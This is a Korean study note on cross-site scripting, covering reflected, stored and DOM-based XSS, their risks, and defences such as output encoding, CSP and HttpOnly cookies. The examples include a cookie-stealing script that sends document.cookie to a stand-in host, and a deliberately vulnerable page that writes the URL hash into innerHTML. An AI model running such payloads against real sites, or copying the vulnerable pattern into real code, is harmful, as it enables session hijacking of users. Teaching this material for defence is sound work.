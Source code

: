 ```yaml
---
layout: page
title: 3. XSS (Cross-Site Scripting)
description: >
hide_description: true
sitemap: false
---
```


### 3.1 **XSS (Cross-Site Scripting)란?**

- 웹 애플리케이션의 취약점을 이용해 악성 스크립트를 다른 사용자의 브라우저에서 실행시키는 공격입니다. 이를 통해 공격자는 사용자의 세션을 가로채거나, 악성 코드 실행, 웹사이트 변조 등의 공격을 수행할 수 있습니다.

### 3.2 공격유형

- **반사형 XSS (Reflected XSS)**
    - **반사형 XSS**는 사용자가 입력한 데이터가 즉시 웹 페이지에 반영되어 발생하는 공격입니다. 보통 URL에 포함된 악성 스크립트를 통해 이루어집니다.
    - 예시
        - 사용자가 http://example.com/search?q=<script>alert(document.cookie)</script>와 같은 URL을 입력합니다.
        - 웹 애플리케이션이 검색어를 그대로 페이지에 출력하면, 스크립트가 실행되어 경고 창이 나타납니다.
        - 문제는 경고 창에 사용자의 쿠키가 노출되는 것입니다.
        - 해당 쿠키를 리다이렉트를 통해 공격자의 사이트로 전달되게 하여 탈취가 가능하게 됩니다.

            ```jsx
            <script>document.location='[http://127.0.0.1/cookie?'+document.cookie](http://127.0.0.1/cookie?%27+document.cookie)</script>
            ```

        - **경고 창** : alert(document.cookie)는 사용자의 쿠키를 경고 창에 표시합니다.
        - **쿠키 탈취** : document.location='http://127.0.0.1/cookie?' + document.cookie는 사용자의 쿠키를 공격자의 서버로 전송하여 탈취할 수 있습니다.
- **저장형 XSS (Stored XSS)**:
    - **저장형 XSS**는 악성 스크립트가 서버에 저장되어 여러 사용자가 해당 스크립트를 실행하게 되는 경우입니다. 예를 들어, 게시판에 악성 스크립트를 포함한 글을 작성하면, 해당 글을 보는 모든 사용자의 브라우저에서 스크립트가 실행됩니다.
    - 예시
        - 사용자가 게시판에 다음과 같은 악성 스크립트를 포함한 글을 작성합니다.

            ```jsx
            <script>document.location='http://127.0.0.1/cookie?'+document.cookie</script>
            ```

        - 해당 게시글을 보는 모든 사용자의 브라우저에서 스크립트가 실행되어, 사용자의 쿠키가 공격자의 서버로 전송되어 탈취가 발생합니다.
- **DOM 기반 XSS (DOM-based XSS)**:
    - 클라이언트 측에서 JavaScript를 통해 DOM을 동적으로 조작할 때 발생합니다. 서버에 요청을 보내지 않고, 클라이언트 측에서 스크립트가 실행됩니다.
    - 예시
        - 클라이언트 측 스크립트가 URL 파라미터를 읽어와 DOM에 삽입할 때, 악성 스크립트가 포함될 수 있습니다.

            ```java
            <!DOCTYPE html>
            <html>
            <head>
                <title>DOM-based XSS Example</title>
            </head>
            <body>
                <h1>Welcome to My Page</h1>
                <div id="output"></div>
                <script>
                    // URL의 해시 부분을 읽어와서 출력
                    var hash = window.location.hash.substring(1);
                    document.getElementById('output').innerHTML = hash;
                </script>
            </body>
            </html>
            ```

        - 사용자가 http://example.com/#<script>alert('XSS');</script>라는 URL에 접근하면, 페이지는 해시 부분에 포함된 스크립트를 실행하여 경고 창이 나타납니다
        - 공격자는 이 취약점을 악용하여 악성 스크립트를 실행할 수 있습니다.
- **반사형 XSS와 DOM 기반 XSS의 차이점**
    - 반사형 XSS와 DOM 기반 XSS는 모두 XSS 공격의 일종이지만, 발생 위치와 동작 방식에서 차이가 있습니다.
    - 반사형 XSS는 서버 측에서 발생하며, 입력된 데이터가 서버를 통해 반사되어 클라이언트로 돌아옵니다.
    - 반면, DOM 기반 XSS는 클라이언트 측에서 발생하며, 클라이언트 측 JavaScript가 직접 데이터를 처리하고 DOM을 조작합니다.

### 3.3 **XSS 공격의 위험성**

- **세션 하이재킹**: 사용자의 세션 쿠키를 탈취하여 공격자가 사용자의 계정으로 로그인할 수 있습니다.
- **악성 코드 실행**: 악성 스크립트를 실행하여 사용자의 시스템에 피해를 줄 수 있습니다.
- **피싱 공격**: 사용자를 속여 민감한 정보를 입력하도록 유도할 수 있습니다.
- **웹사이트 변조**: 웹페이지의 내용을 변경하여 사용자에게 잘못된 정보를 제공할 수 있습니다.

### 3.4 **XSS 방어 기법**

- **입력 검증 및 인코딩**
    - 사용자 입력을 철저히 검증하고, 출력할 때 적절히 인코딩하여 스크립트가 실행되지 않도록 합니다.
    - 예시: HTML 인코딩, JavaScript 인코딩, URL 인코딩 등을 사용하여 사용자 입력을 안전하게 처리합니다.

- **Content Security Policy (CSP)**
    - Content Security Policy (CSP)는 웹 애플리케이션이 허용된 콘텐츠 소스를 명시하여 XSS(크로스 사이트 스크립팅) 및 데이터 삽입 공격을 방지하는 보안 기능입니다.
    - CSP는 웹 애플리케이션이 로드할 수 있는 리소스의 출처를 정의하는 HTTP 응답 헤더입니다. 이를 통해 개발자는 특정 스크립트, 스타일시트, 이미지 등을 로드할 수 있는 출처를 제한할 수 있습니다.
    - 예시: Content-Security-Policy: default-src 'self’ [https://trusted.cdn.com](https://trusted.cdn.com/);

- **HTTPOnly 쿠키 사용**
    - 세션 쿠키에 HttpOnly 속성을 설정하여 JavaScript에서 접근하지 못하도록 합니다. 이를 통해 세션 하이재킹을 방지할 수 있습니다.
    - HTTPOnly 쿠키는 서버 측에서 설정합니다.
    - 예시: Set-Cookie: sessionId=abc123; HttpOnly; Secure
- **JavaScript 안전하게 사용하기**

  클라이언트 측에서 사용자 입력을 직접적으로 처리하지 않도록 합니다. JavaScript를 사용할 때, DOM 조작 시 사용자 입력을 안전하게 처리합니다. 예를들어 인코딩 처리나 안전한 메스드를 사용하여 조작합니다.